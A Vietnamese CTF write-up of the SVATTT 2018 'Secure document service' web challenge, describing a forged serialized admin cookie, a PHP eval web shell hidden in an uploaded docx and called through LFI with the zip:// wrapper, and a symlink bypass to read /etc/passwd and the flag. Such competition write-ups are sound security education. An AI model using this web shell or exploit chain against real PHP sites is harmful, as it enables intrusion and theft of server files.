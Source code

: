 ```yaml
---
title: "SVATTT 2018 - Secure document service"
date: 2018-11-05T15:37:42+07:00
draft: false
comments: true
author: "Kev"
tags: ["ctf", "svattt 2018"]
Archives: '2018'
autoThumbnailImage: false
thumbnailImagePosition: top
thumbnailImage: ''
coverImage: /images/uploads/svattt18_01.png
---
```


# Mô tả

> 1000 points (1/68 sovles)  
> I made a simple and secure web service for upload and share document. Can you read document to get a gift? :D  
> http://171.244.141.213:8337/

# Gợi ý

> 1.Flag in /tmp/fl4g.php  
> 2.Wrapper  
> 3.https://pastebin.com/g6XSfVfB

# Ý tưởng

> Tìm cách đăng nhập admin bằng... googling {{<emoji lol>}}.  
> Upload file docx chứa mã độc (shell) và gọi ra bằng wrapper zip:// qua LFI.  
> Dùng symlink để bypass filter và đọc flag.

# Chi tiết

## Bước 1: Đăng nhập admin

`<!-- guest:guest account enabled -->` đây là đoạn code comment cũng là hint của tác giả để đăng nhập vào bên trong. Hint này cũng nói lên 1 điều là tôi cần phải đăng nhập được tài khoản admin.
Sau khi đăng nhập tôi nhận được 2 cookie mới:

```
Set-Cookie: auth=Tzo0OiJVc2VyIjoyOntzOjQ6InVzZXIiO3M6NToiZ3Vlc3QiO3M6NDoicGFzcyI7czo1OiJndWVzdCI7fQ%3D%3D; expires=Sat, 03-Nov-2018 06:32:36 GMT; Max-Age=7200; path=/
Set-Cookie: check=MGFkN2ZkNzVjMTE4ZTM4ZGY5ZTc3YzZiMWJmNWI5ZDI%3D; expires=Sat, 03-Nov-2018 06:32:36 GMT; Max-Age=7200; path=/
```
đó cũng chính là đoạn dữ liệu này sau khi decode

```
auth=O:4:"User":2:{s:4:"user";s:5:"guest";s:4:"pass";s:5:"guest";}
check=0ad7fd75c118e38df9e77c6b1bf5b9d2
```

Tôi đã thử đăng nhập với tài khoản admin:admin mà không được, giờ có 2 cách có thể nghĩ ra nhanh là bruteforce mật khẩu dễ của tài khoản admin hoặc fuzz tìm lỗi gì đó như: sqli, ... Mặc dù nghĩ vậy nhưng tôi lại làm cách thứ 3 là search google. {{<emoji lol>}}
Tìm kiếm `0ad7fd75c118e38df9e77c6b1bf5b9d2` trên google mục đích là xem chuỗi plain text là gì nhưng tôi lại tìm ra kết quả khác - writeup của 1 bài tương tự {{<emoji beauty>}} [link](https://www.zybuluo.com/shaobaobaoer/note/1214441)
Thật ra link writeup trên đã nói lên cách làm của challenge này nhưng ... sự thật chớ trêu, tôi lại không chịu đọc hết bài :((  
Cuối cùng, chỉ cần copy cookie y như trong bài blog là vào được admin

```
Cookie: auth=Tzo0OiJVc2VyIjoyOntzOjQ6InVzZXIiO3M6NToiYWRtaW4iO3M6NDoicGFzcyI7YjoxO30%3D; check=Njg5N2YwMDYwYTg0ZWNiMDYwMGU0MTY3ZDJhNzQ4ZTQ%3D
```

## Bước 2: Upload file doc, docx

Bước này khá là tranh cãi, mà vì sao lại cãi thì tôi cũng không rõ. Cơ bản là không hiểu lý do vì sao mà đội này upload được mà đội kia lại không. Sau khi thời gian thi kết thúc, hỏi tác giả cũng không rõ vì sao ?????  
Cùng với LFI ở param `page` + file upload thì đây chính là vector để gọi shell.

{{<figure src="/images/uploads/svattt18_02.png">}}

Nhưng cuộc sống không dễ dàng, tác giả đã add suffix là `.php` nên chỉ gọi được file php cùng với disable các wrapper thông thường thì có thánh mới đọc được source php {{<emoji burn_joss_stick>}}

Từ hint của 1 đồng đội, bản chất của docx, doc, xls, ppt, ... đều là zip. Để shell php nén cùng với docx tôi fuzz thử wrapper zip để gọi lên shell. Ngon ăn luôn.

{{<figure src="/images/uploads/svattt18_03.png">}}

Lên shell trông có vẻ đã đi đến đích rồi, nhưng không, thật sự không. Dưới đây là tất cả function bị disable.

{{<figure src="/images/uploads/svattt18_04.png">}}

Các bạn để ý, `eval` mình bôi đen trên hình là bị chặn nhưng đây là con shell mình up lên server `<?php echo 'Lên shell rồi nhé !!!'; eval($_POST["kv"]);`. {{<emoji lovemachine>}} méo hiểu vì sao, chính vì sự magic đó dẫn đến bước 3.

## Bước 3: Get flag

Mặc dù eval bị disable nhưng vẫn dùng được, không hiểu vì sao, có thể 1 lý do mà mình nghĩ đến là eval không phải function. Thế thì làm sao đọc flag??? Có 2 cách có thể nghĩ đến là suy nghĩ hướng khác, 2 là tìm function bị filter thiếu.  
Kéo lên xem lại hình trên, các function bị disable trong đó có function symlink. Symlink chỉ mới vừa được thêm vào sau khi kết thúc thời gian thi. Thật ra dưới đây mới là các function bị disable.

```
eval, show_source, system, shell_exec, passthru, exec, popen, fopen, proc_open, mail, stream_wrapper_register, include, require, require_once, parse_ini_file, proc_open, curl_exec, set_time_limit, stream_wrapper_restore, file_get_contents, file_put_contents, readfile, copy, file, glob, parse_ini_file
```

Tôi và đồng đội cùng fuzz để tìm được symlink và cũng là cách mà tác giả không mong muốn. (unintend solution !!!). 

Vì không thể dùng symlink để writeup nữa nên mình demo hình ảnh của payload cũ cho các bạn xem

{{<figure src="/images/uploads/svattt18_05.png">}}
{{<figure src="/images/uploads/svattt18_06.png">}}

Lần lượt truy cập vào `http://171.244.141.213:8337/uploads/asdfads.txt` và `http://171.244.141.213:8337/uploads/asdfsssads.txt` sẽ xem được nội dung file `/etc/passwd` và `/tmp/fl4g.php`

> Ghi chú: Cách dùng fsock như ý tác giả các bạn có thể xem trong [link này](https://www.zybuluo.com/shaobaobaoer/note/1214441)  
> Chức năng `Contact` chỉ để cho có thôi, không có tác dụng gì trong đây cả nhưng cũng làm mình mất đến vài tiếng đồng hồ để ghép nối các manh mối lại với nhau cho logic {{<emoji beat_brick>}}  
> Vì sao mà symlink lúc thi không có nhưng khi writeup lại có thì tôi đang liên hệ tác giả để tìm hiểu thêm.  
> Link pastebin ở trên đầu bài từ lúc viết writeup là không truy cập được nữa
